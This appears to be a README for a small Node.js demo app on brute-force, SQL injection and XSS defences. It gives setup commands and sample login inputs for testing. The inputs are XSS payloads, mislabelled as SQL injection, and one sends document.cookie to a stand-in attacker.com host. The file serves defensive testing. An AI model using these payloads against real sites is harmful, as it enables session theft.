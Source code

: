 # Simple Web Security App

This project demonstrates a simple web application that includes features like brute force protection, SQL injection prevention, and XSS mitigation.
  
## Installation

Follow the steps below to set up the project on your local machine.

### 1. Create a New Project Directory
Open your terminal and create a new directory for your project:
```bash
mkdir my-web-security-app
cd my-web-security-app
```

### 2. Initialize a Node.js Project
Run the following command to initialize a new Node.js project and create the package.json file:
```bash
npm init -y

```

### 3. Install Required Dependencies
```bash
npm install express cors

```

### 4. Start the Server
```bash
node server.js

```

### Others
```bash
netstat -ano | findstr :3000
taskkill /PID ID /F
```
### Sample Inputs
```bash
USERNAME AND PASSWORD

{
  "username": "joxyle",
  "password": "jhon"
}

SQL INJECTION
{
  "username": "<script>alert('XSS')</script>",
  "password": "password123"
}
{
  "username": "<img src='x' onerror='alert(1)'>",
  "password": "password123"
}
{
  "username": "<img src='nonexistent.jpg' onload='alert(\"XSS\")'>",
  "password": "password123"
}
{
  "username": "<script>fetch('http://attacker.com?cookie=' + document.cookie)</script>",
  "password": "password123"
}
{
  "username": "<img src='x' onerror='eval(atob(\"YWxlcnQoJ1hTUycp\")' />",
  "password": "password123"
}

```
